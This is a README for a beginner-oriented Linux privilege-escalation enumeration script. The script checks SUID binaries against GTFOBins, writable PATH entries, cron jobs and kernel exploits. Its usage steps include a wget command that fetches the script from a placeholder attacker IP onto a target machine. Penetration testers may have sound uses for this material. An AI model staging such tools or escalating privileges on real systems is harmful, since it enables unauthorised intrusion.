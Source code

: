 # Privilege Escalation Helper Tool

This is a beginner-friendly privilege escalation enumeration tool designed for Linux systems. It automatically checks for:
- SUID binaries and matches them against GTFOBins
- Writable paths in $PATH
- Cron jobs
- Kernel version and suggests known exploits using linux-exploit-suggester

## Usage

1. Upload the script to the target machine:
```
wget http://<attacker-ip>/privesc_helper.sh
chmod +x privesc_helper.sh
```
2. (Optional) Place `linux-exploit-suggester.sh` in the same folder.

3. Run the tool:
```
./privesc_helper.sh
```

4. Check the results in `privesc_report.txt`.

## 🖼️ Screenshot

<p align="center">
  <img src="demo.jpg" alt="Auto-privsec Demo Screenshot" width="970px">
</p>


## ⚙️ Requirements

bash
curl
tee


## License

MIT License

Copyright (c) 2025 ZAR

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the “Software”), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED “AS IS”, WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

